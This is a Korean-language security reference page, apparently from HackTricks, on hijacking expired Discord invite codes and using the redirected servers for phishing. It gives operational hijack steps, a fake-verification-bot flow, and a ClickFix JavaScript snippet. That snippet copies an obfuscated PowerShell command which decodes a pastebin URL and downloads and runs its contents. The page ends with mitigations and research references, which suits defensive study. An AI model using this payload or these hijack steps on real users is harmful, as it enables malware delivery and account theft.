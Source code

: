 # Discord 초대 코드 탈취

{{#include ../../banners/hacktricks-training.md}}

Discord의 초대 시스템 취약점은 위협 행위자가 만료되거나 삭제된 초대 코드를 새로운 맞춤 링크로 주장할 수 있게 합니다(임시, 영구 또는 사용자 정의). 모든 코드를 소문자로 정규화함으로써, 공격자는 알려진 초대 코드를 사전 등록하고 원래 링크가 만료되거나 소스 서버의 부스트가 사라지면 조용히 트래픽을 탈취할 수 있습니다.

## 초대 유형 및 탈취 위험

| 초대 유형               | 탈취 가능? | 조건 / 비고                                                                                             |
|-----------------------|-------------|--------------------------------------------------------------------------------------------------------|
| 임시 초대 링크         | ✅          | 만료 후, 코드는 사용 가능해지며 부스트 서버에 의해 맞춤 URL로 재등록될 수 있습니다.                     |
| 영구 초대 링크         | ⚠️          | 삭제되고 소문자와 숫자로만 구성된 경우, 코드는 다시 사용 가능해질 수 있습니다.                          |
| 사용자 정의 맞춤 링크  | ✅          | 원래 서버가 Level 3 Boost를 잃으면, 해당 맞춤 초대는 새로운 등록을 위해 사용 가능해집니다.            |

## 악용 단계

1. 정찰
- `discord.gg/{code}` 또는 `discord.com/invite/{code}` 패턴과 일치하는 초대 링크를 위해 공개 소스(포럼, 소셜 미디어, 텔레그램 채널)를 모니터링합니다.
- 관심 있는 초대 코드를 수집합니다(임시 또는 맞춤).
2. 사전 등록
- Level 3 Boost 권한이 있는 Discord 서버를 생성하거나 기존 서버를 사용합니다.
- **서버 설정 → 맞춤 URL**에서 대상 초대 코드를 할당하려고 시도합니다. 수락되면, 코드는 악의적인 서버에 의해 예약됩니다.
3. 탈취 활성화
- 임시 초대의 경우, 원래 초대가 만료될 때까지 기다립니다(또는 소스를 제어하는 경우 수동으로 삭제합니다).
- 대문자가 포함된 코드의 경우, 소문자 변형은 즉시 주장할 수 있지만, 리디렉션은 만료 후에만 활성화됩니다.
4. 조용한 리디렉션
- 사용자가 이전 링크를 방문하면 탈취가 활성화된 후 공격자가 제어하는 서버로 원활하게 전송됩니다.

## Discord 서버를 통한 피싱 흐름

1. 서버 채널을 제한하여 **#verify** 채널만 보이도록 합니다.
2. 신규 사용자가 OAuth2를 통해 인증하도록 유도하는 봇(예: **Safeguard#0786**)을 배포합니다.
3. 봇이 사용자를 피싱 사이트(예: `captchaguard.me`)로 리디렉션합니다. 이는 CAPTCHA 또는 인증 단계의 가장을 씁니다.
4. **ClickFix** UX 트릭을 구현합니다:
- 깨진 CAPTCHA 메시지를 표시합니다.
- 사용자가 **Win+R** 대화 상자를 열고 미리 로드된 PowerShell 명령을 붙여넣고 Enter를 누르도록 안내합니다.

### ClickFix 클립보드 주입 예시
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
이 접근 방식은 직접 파일 다운로드를 피하고 사용자 의심을 줄이기 위해 친숙한 UI 요소를 활용합니다.

## 완화 조치

- 최소한 하나의 대문자 또는 비알파벳 문자가 포함된 영구 초대 링크를 사용하세요 (만료되지 않으며 재사용할 수 없음).
- 정기적으로 초대 코드를 변경하고 오래된 링크를 취소하세요.
- Discord 서버 부스트 상태 및 맞춤 URL 청구를 모니터링하세요.
- 사용자에게 서버의 진위를 확인하고 클립보드에 붙여넣은 명령을 실행하지 않도록 교육하세요.

## 참고 문헌

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord Custom Invite Link Documentation – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
